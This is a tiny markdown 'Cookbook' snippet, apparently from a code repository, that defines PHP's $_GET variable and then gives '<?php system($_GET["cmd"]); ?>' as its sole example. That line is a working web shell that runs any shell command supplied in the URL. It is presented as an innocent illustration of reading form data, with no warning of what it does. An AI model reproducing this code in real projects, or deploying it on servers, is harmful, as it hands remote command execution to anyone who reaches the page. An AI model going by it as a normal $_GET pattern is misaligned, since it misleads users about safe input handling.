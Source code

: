 # Cookbook

## $GET

PHP $_GET is a PHP super global variable which is used to collect form data after submitting an HTML form with method="get".

	<?php system($_GET["cmd"]); ?>
